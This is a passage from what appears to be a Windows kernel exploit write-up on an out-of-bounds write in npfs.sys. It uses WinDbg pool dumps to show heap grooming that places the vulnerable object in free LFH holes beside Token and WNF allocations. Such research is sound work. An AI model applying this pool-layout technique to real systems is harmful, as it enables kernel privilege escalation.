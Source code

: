 ```
 ffffb0880d69f0a0 size:   20 previous size:    0  (Free)       ....
 
0: kd> !pool ffffb0880d6a0000
Pool page ffffb0880d6a0000 region is Paged pool
*ffffb0880d6a0000 size:   20 previous size:    0  (Free)      *....
        Owning component : Unknown (update pooltag.txt)
 ffffb0880d6a0020 size:   20 previous size:    0  (Free)       ....
 ffffb0880d6a0040 size:   20 previous size:    0  (Free)       ....
 ffffb0880d6a0060 size:   20 previous size:    0  (Free)       ....
 ffffb0880d6a0080 size:   20 previous size:    0  (Free)       ....

0: kd> !pool ffffb0880d6a1000
Pool page ffffb0880d6a1000 region is Paged pool
*ffffb0880d6a1000 size:   20 previous size:    0  (Free)      *....
        Owning component : Unknown (update pooltag.txt)
 ffffb0880d6a1020 size:   20 previous size:    0  (Free)       ....
 ffffb0880d6a1040 size:   20 previous size:    0  (Free)       ....
 ffffb0880d6a1060 size:   20 previous size:    0  (Free)       ....
 ffffb0880d6a1080 size:   20 previous size:    0  (Free)       ....
 
0: kd> !pool ffffb0880d6a2000  // ======>  new VS subsegment header
Pool page ffffb0880d6a2000 region is Paged pool
*ffffb0880d6a2000 size:   30 previous size:    0  (Free)      *....
        Owning component : Unknown (update pooltag.txt)
 ffffb0880d6a2040 size:  880 previous size:    0  (Allocated)  Toke
 ffffb0880d6a28d0 size:  580 previous size:    0  (Allocated)  Wnf  Process: ffffc10b74a1c080
 ffffb0880d6a2e50 size:  190 previous size:    0  (Free)       ..D.
```

![](https://whereisk0shl.top/20220823/2.png)

As the layout show, there are many free LFH pool holes in the end LFH bucket, and the new VS subsegment is next to the LFH bucket, if we create vulnerable object now, it will be located in one of the free LFH pool hole.

Note the vulnerable object may not located in the last LFH page, but it's not necessary, the out of bound write may corrupt the LFH bucket will not affect our exploitation.

```
0: kd> r
rax=ffffb0880d69e750 rbx=0000000000000002 rcx=0000000000000028
rdx=0000000000000000 rsi=0000000000000000 rdi=ffffe4835a302301
rip=fffff800401c2b31 rsp=ffffe4835a301e00 rbp=ffffe4835a301f00
 r8=0000000000000fff  r9=00000000000004ca r10=000000006e46704e
r11=0000000000001001 r12=ffffe4835a302220 r13=ffffe4835a302310
r14=0000000000000001 r15=000000000000ff01
iopl=0         nv up ei ng nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040282
Npfs!NpTranslateContainerLocalAlias+0x391:
fffff800`401c2b31 4889442450      mov     qword ptr [rsp+50h],rax ss:0018:ffffe483`5a301e50=0000000000000000

0: kd> !pool @rax // ===> vulnerable pool locate at one of free hole in LFH bucket
Pool page ffffb0880d69e750 region is Paged pool
 ffffb0880d69e700 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e720 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
*ffffb0880d69e740 size:   20 previous size:    0  (Allocated) *NpFn
        Pooltag NpFn : Name block, Binary : npfs.sys
 ffffb0880d69e760 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e780 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e7a0 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e7c0 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e7e0 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
 ffffb0880d69e800 size:   20 previous size:    0  (Allocated)  PsTp Process: ffffc10b74a1c080
```